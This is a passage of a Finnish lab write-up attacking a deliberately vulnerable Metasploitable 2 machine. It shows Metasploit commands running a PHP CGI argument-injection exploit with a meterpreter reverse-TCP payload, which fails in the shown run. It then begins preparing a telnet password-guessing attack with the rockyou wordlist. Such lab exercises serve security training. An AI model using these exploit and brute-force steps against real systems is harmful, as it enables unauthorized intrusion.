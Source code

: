 Avataan metasploit framework console <code>msfconsole</code> ja etsitään sopiva exploit. Käytin tässä apuna [How To Hack and Exploit Port 80 HTTP Metasploitable 2 Full Walkthrough - Home Hacking Lab Video 11](https://www.youtube.com/watch?v=HH7DPfYTfoI) -videota.

``````
msf6 > search php_cgi

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/multi/http/php_cgi_arg_injection  2012-05-03       excellent  Yes    PHP CGI Argument Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/php_cgi_arg_injection
``````
Exploitti löytyi joten käytetään sitä. 

`````
msf6 exploit(multi/http/php_cgi_arg_injection) > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/php_cgi_arg_injection) > set rhosts 192.168.12.3
rhosts => 192.168.12.3
msf6 exploit(multi/http/php_cgi_arg_injection) > exploit

[*] Started reverse TCP handler on 192.168.12.2:4444 
[*] Exploit completed, but no session was created.

``````

Jostain syystä sain virheilmoituksen, että sessiota ei luotu. Syy tuntematon. Näin se olisi käytännössä kuitenkin tapahtunut, jos exploit olisi toiminut. Videossa tässä kohtaa kuitenkin yhteys saadaan luotua ja päästää koneeseen käsiksi.

### 4. Credential Access/TA0006 - [Brute Force: Password Guessing/T1110.00](https://attack.mitre.org/techniques/T1110/001/)

Tunkeilijat, joilla ei ole ennakkotietoa järjestelmän tai ympäristön laillisista tunnuksista, voivat arvata salasanoja ja yrittää päästä tileille. Ilman tietoa tilin salasanasta hyökkääjä voi päätyä arvaamaan salasanan järjestelmällisesti toistuvalla tai iteratiivisella mekanismilla. Tunkeilija voi arvailla kirjautumistunnuksia ilman ennakkotietoa järjestelmän tai ympäristön salasanoista operaation aikana käyttämällä luetteloa yleisistä salasanoista. 

Suoritin Nmap -tiedustelun kohteeseen, varmistetaan että telnet on auki. Telnet on avoin. Käytin tehtävässä apuna Exploiting [Metasploitable 2 - Brute Force Attack for Telnet Password](https://www.youtube.com/watch?v=EavbD2EWzVA) -videota.

    23/tcp   open  telnet

Aion käyttää rockyou.txt -sanalistaa apuna salasanan kräkkäämisessä. Lista on Kalissa valmiiksi asennettuna polkuun <code>/usr/share/wordlists</code>.
